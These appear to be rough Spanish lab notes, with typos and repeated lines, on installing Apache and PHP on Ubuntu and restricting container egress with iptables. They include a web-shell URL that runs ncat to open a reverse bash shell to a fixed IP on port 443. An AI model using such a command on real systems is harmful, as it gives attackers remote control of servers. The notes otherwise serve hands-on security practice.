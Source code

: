 isntalar apache en ubunte 
```
apt-get install apache2 php5 libapache2-mod-php5
```
apt-get install apache2 php5 libapache2-mod-php5
```
libapache2-mod-php
```
libapache2-mod-php
Cambiar para que lea el php
```
nano /etc/php/8.3/apache2/php.ini
```
cambiar el 
short_open_tag
de off a on

```
service apache2 restart
```
el link lo modificamos para entablar una [[Reverse Shell]]
```
http://localhost/cmd.php?cmd=ncat -e /bin/bash 172.17.0.1 443

```
Genera otra regla en el la configuración de iptables. Sin embargo iptables está configurado de tal manera que siempre ejecutes el comando desde el archivo raíz, y no puedas utilizar una consola interactiva
```
iptables -A OUTPUT -p tcp -m tcp -o eth0 --sport 80 -j ACCEPT
```
(eth0 es el nombre de la interfaz de red que está en el contenedor junto a la loopback. 
Para que solo me mande por el puerto 80 y me bloquee el resto de los puertos
```
iptables -A OUTPUT -o eth0 -j DROP
```

```
